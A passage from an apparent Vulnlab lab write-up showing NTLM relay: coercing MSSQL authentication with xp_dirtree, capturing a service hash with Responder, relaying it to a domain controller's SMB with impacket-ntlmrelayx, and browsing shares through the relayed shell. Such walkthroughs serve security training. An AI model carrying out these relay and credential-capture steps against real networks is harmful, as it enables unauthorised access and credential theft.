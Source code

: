 This can be done by utilizing the `xp_dirtree` MSSQL command built into Impacket, which essentially allows us to query a folder on the local host. This can also however, be used to query folders on remote hosts. This means we can point the directory listing command back to our local Kali machine. Our goal is to relay the authentication, however I just want to show the proof-of-concept of what I mean before we continue.

We can boot up `responder` on a separate terminal pane with `sudo responder -I (VPN interface)`.

![](/images/vulnlab/reflection-vl/b.png)

As you can from the above, a successful hash was captured for `svc_web_staging`. While we probably can't crack the hash for this account, this does prove that we have the ability to relay the credentials.

To do this, we can use a tool from Impacket called [ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py). This tool will relay the NTLM hash that we can see much like in Responder and use that NTLM hash to authenticate to another service. We can relay the credentials to any service on a target machine, should that service allow for NTLM authentication and allows `svc_web_staging` to authenticate to it. Let's try SMB, though you could also point it to the MSSQL service on the DC if you'd like.

We can start `ntlmrelayx` with the below command, ensuring that we specify the `-i` option for an interactive session.

```
└─$ impacket-ntlmrelayx -t smb://10.10.255.149 -smb2support -i
```

This should launch about over 10 protocols that will listen for incoming requests, much like Responder did. All that's left now is to query our localhost on the MSSQL workstation and forward the request to SMB.

![](/images/vulnlab/reflection-vl/c.png)

As you can see, an SMB client shell was started on our local machine on port 11000. We can connect to this easily using netcat. Be sure that you do NOT close out of `ntlmrelayx` until we've finished using the local shell.

# SMB/MSSQL Enumeration on DC01

```
└─$ nc 127.0.0.1 11000
Type help for list of commands
# help

 open {host,port=445} - opens a SMB connection against the target host/port
```

We seem to have a semi-interactive SMB shell, which has successfully connected to the DC through NTLM relay. We can now enumerate the SMB shares in the context of `svc_web_staging`. You can enumerate shares with the `shares` command.

```
# shares
ADMIN$
C$
IPC$
NETLOGON
prod
SYSVOL
# use prod
# ls
drw-rw-rw-          0  Wed Jun  7 13:44:26 2023 .
drw-rw-rw-          0  Wed Jun  7 13:43:22 2023 ..
-rw-rw-rw-         45  Thu Jun  8 07:24:39 2023 prod_db.conf
```
